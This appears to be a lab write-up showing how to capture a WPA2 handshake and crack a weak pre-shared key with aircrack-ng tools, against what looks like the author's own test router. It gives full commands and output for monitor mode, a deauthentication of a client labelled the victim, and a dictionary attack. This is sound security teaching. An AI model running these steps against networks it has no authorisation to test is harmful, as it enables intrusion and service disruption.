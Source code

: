 ```yaml
---
title: Wireless sniffing
---
```


# Wireless sniffing

1. Goal
    * Collect and analyze wireless traffic.

2. Used hardware
    * Alfa AWUS036NHA (Long-range USB Adapter)
    * TL-MR3020 (Porable 3G/4G Wireless N Router)
    * 1 laptop with Kali Linux
    * 1 device with a wireless connection (Smartphone, tablet, ...)

3. Used software
    * Kali Linux (2019.4)

4. Setup

![Success](./assets/setup.png)

5. Getting started
    1. Display the list of available adapters (Kali Linux)
    
    ```
    root@kali:~# airmon-ng

    PHY     Interface       Driver          Chipset

    phy0    wlan0           iwlwifi         Intel Corporation WiFi Link 5100
    phy1    wlan1           ath9k_htc       Qualcomm Atheros Communications AR9271 802.11n

    root@kali:~#
    ```
    
    2. Monitor mode allows a wireless network interface controller to monitor all traffic received on a wireless channel.
        1. Kill the network managers. (To Avoid interference with other tools)
        ```
        root@kali:~# airmon-ng check kill

        Killing these processes:

        PID Name
        626 wpa_supplicant

        root@kali:~#
        ```
        2. Put the adapter in monitor mode
        ```
        root@kali:~# airmon-ng start wlan1

        PHY     Interface       Driver          Chipset

        phy0    wlan0           iwlwifi         Intel Corporation WiFi Link 5100
        phy1    wlan1           ath9k_htc       Qualcomm Atheros Communications AR9271 802.11n

                (mac80211 monitor mode vif enabled for [phy1]wlan1 on [phy1]wlan1mon)
                (mac80211 station mode vif disabled for [phy1]wlan1)

        root@kali:~#
        ```
        3. Scan the environment
        ```
        root@kali:~# airodump-ng wlan1mon

        CH 11 ][ Elapsed: 36 s ][ 2019-12-23 18:58

        BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

        68:FF:7B:45:A5:88  -39       69        0    0   1  270  WPA2 CCMP   PSK  TP-Link_TEST
        3A:43:3D:4B:CE:5E  -55       51        0    0   6  130  WPA2 CCMP   MGT  TelenetWiFree
        04:BF:6D:22:9B:6E  -83       15        0    0   6  130  WPA2 CCMP   PSK  Wireless
        0A:19:70:AA:AB:25  -86        9        0    0   1  54e. WPA2 CCMP   MGT  Proximus Public Wi-Fi
        1E:B0:44:3B:F6:7D  -89        2        0    0   1  130  WPA2 CCMP   PSK  Guest-Orange-bf678
        AC:22:05:AC:81:93  -90        5        0    0   1  130  WPA2 CCMP   PSK  MyBike
 
        root@kali:~#
        ```
    3. Hacking WPA2

        [More information about Wi-Fi Protected Access](https://en.wikipedia.org/wiki/Wi-Fi_Protected_Access)
  
        1. Capture data from a specified BSSID. We are seeking for the MAC address of the victim.
        ```
        root@kali:~# airodump-ng --bssid 68:FF:7B:45:A5:88 -c 1 -w tkip wlan1mon

        CH  1 ][ Elapsed: 1 min ][ 2019-12-23 19:03

        BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

        68:FF:7B:45:A5:88  -27  93      995       45    0   1  270  WPA2 CCMP   PSK  TP-Link_TEST

        BSSID              STATION            PWR   Rate    Lost    Frames  Probe

        68:FF:7B:45:A5:88  C0:33:5E:DD:CA:FD  -37    1e- 1      0       11

        root@kali:~#
        ```
        2.While capturing data in one terminal, deautenticate the victim in a second terminal.
        ```
        root@kali:~# aireplay-ng --deauth 2 -a 68:FF:7B:45:A5:88 -c C0:33:5E:DD:CA:FD wlan1mon
        19:10:10  Waiting for beacon frame (BSSID: 68:FF:7B:45:A5:88) on channel 1
        19:10:11  Sending 64 directed DeAuth (code 7). STMAC: [C0:33:5E:DD:CA:FD] [61|66 ACKs]
        19:10:11  Sending 64 directed DeAuth (code 7). STMAC: [C0:33:5E:DD:CA:FD] [60|64 ACKs]
        root@kali:~#
        ```
        In the first terminal Airodump-ng should display 'WPA handshake'
        ```
        root@kali:~# airodump-ng --bssid 68:FF:7B:45:A5:88 -c 1 -w ccmp  wlan1mon

        CH  1 ][ Elapsed: 42 s ][ 2019-12-23 19:40 ][ WPA handshake: 68:FF:7B:45:A5:88

        BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

        68:FF:7B:45:A5:88  -28  71      380       13    0   1  270  WPA2 CCMP   PSK  TP-Link_TEST

        BSSID              STATION            PWR   Rate    Lost    Frames  Probe

        68:FF:7B:45:A5:88  C0:33:5E:DD:CA:FD  -42    1e- 1e     0       19

        root@kali:~#
        ```
        3. Resolving the PSK. We make use of a list of known passwords.
        ```
        root@kali:~# aircrack-ng  -w /usr/share/john/password.lst ccmp-01.cap
        Opening ccmp-01.capease wait...
        Read 988 packets.

            #  BSSID              ESSID                     Encryption

            1  68:FF:7B:45:A5:88  TP-Link_TEST              WPA (1 handshake)

        Choosing first network as target.

        Opening ccmp-01.capease wait...
        Read 988 packets.

        1 potential targets

                                      Aircrack-ng 1.5.2

            [00:00:00] 428/649 keys tested (1267.84 k/s)

            Time left: 0 seconds                                      65.95%

                                   KEY FOUND! [ NotSecure ]

            Master Key     : 36 D7 58 30 73 6D C6 14 43 22 E9 94 75 C8 D7 66
                             6D D3 E9 5C A0 32 42 68 9B 66 34 5B 98 83 4E 22

            Transient Key  : 64 3A 8D C6 6A ED AD 65 58 4B 52 04 29 D8 01 A0
                             8D C3 E7 F2 E7 35 40 BE 30 9C A1 F0 A2 04 6B 81
                             D7 8A 35 79 4D 38 86 EB 0F 1E BB 5D FB 0B ED 6F
                             F3 67 A4 EC 19 9E D0 79 5F C5 AF CB FA 62 DC D4

            EAPOL HMAC     : 6F 1D 9E 64 3E 39 5C 16 55 FC CB B0 F7 B0 6B 77
        root@kali:~#
        ```
6. Conclusion
    
    * Pre-shared key WPA and WPA2 remain vulnerable to password cracking attacks if users rely on a weak password or passphrase.
